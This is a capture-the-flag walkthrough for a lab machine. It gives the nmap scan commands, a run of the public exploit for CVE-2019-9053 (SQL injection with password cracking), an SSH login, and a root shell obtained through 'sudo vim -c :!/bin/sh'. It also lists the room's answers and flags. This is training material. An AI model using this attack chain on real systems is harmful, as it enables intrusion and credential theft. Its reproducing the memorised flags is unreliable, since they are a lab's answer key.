 ### How many services are running under port 1000?
```BASH
nmap -sV -p1-1000 VICTIM_IP_ADRESS
```
`-sV` - determine service/version info  

`-p1-1000` - strictly ports 1 to 1000  

![image](https://github.com/user-attachments/assets/a564f521-f758-4386-8b7e-fdf302a5033d)
<pre>2</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What is running on the higher port?
```BASH
nmap -sV -p- VICTIM_IP_ADRESS
```
![image](https://github.com/user-attachments/assets/83e955f4-0545-4867-b272-1641190e728c)

`-p-` - scan all ports
<pre>ssh</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What's the CVE you're using against the application?
<pre>CVE-2019-9053</pre>

<span style="line-height:0.5;">&nbsp;</span>

### To what kind of vulnerability is the application vulnerable?
<pre>SQLi</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What's the password?
Download the Python exploit from [exploit-db](https://www.exploit-db.com/exploits/46635) and save it as exploit.py. Run the exploit with cracking enabled.
```BASH
python2 exploit.py -u http://VICTIM_IP_ADRESS/simple --crack -w /usr/share/wordlists/rockyou.txt
```
The script will extract and crack the admin credentials:  

![image](https://github.com/user-attachments/assets/1887f377-bd6a-4fc2-ad81-c1ceea2b7463)

<span style="line-height:0.5;">&nbsp;</span>

### Where can you login with the details obtained?
<pre>ssh</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What's the user flag?
```BASH
ssh mitch@VICTIM_IP_ADRESS -p 2222
```
![image](https://github.com/user-attachments/assets/79ea498b-ab33-4b45-83f8-da8ef18a8dcf)
<pre>G00d j0b, keep up!</pre>

<span style="line-height:0.5;">&nbsp;</span>

### Is there any other user in the home directory? What's its name?
```BASH
cd ..
ls
```
<pre>sunbath</pre>
<span style="line-height:0.5;">&nbsp;</span>

### What can you leverage to spawn a privileged shell?
Run the following to check sudo permissions.
```BASH
sudo -l
```
![image](https://github.com/user-attachments/assets/d0586f88-c5ac-4e2d-ab21-b0fc2ad6dfaa)  

This means user mitch can execute vim as root without a password.
<pre>vim</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What's the root flag?
To escalate privileges using vim go to [GTFOBins](https://gtfobins.github.io/) and search vim. Go to 'Sudo' section and if you can run vim as root via sudo, spawn a root shell by running:
```BASH
sudo vim -c ':!/bin/sh'
```
This command opens vim and immediately executes /bin/sh from within it, giving you a root shell. Exit Vim to open root shell.  

![image](https://github.com/user-attachments/assets/ac6c31d0-bea6-4468-8ec8-5fc75421bde2)

CTF flag
<pre>W3ll d0n3. You made it!</pre>

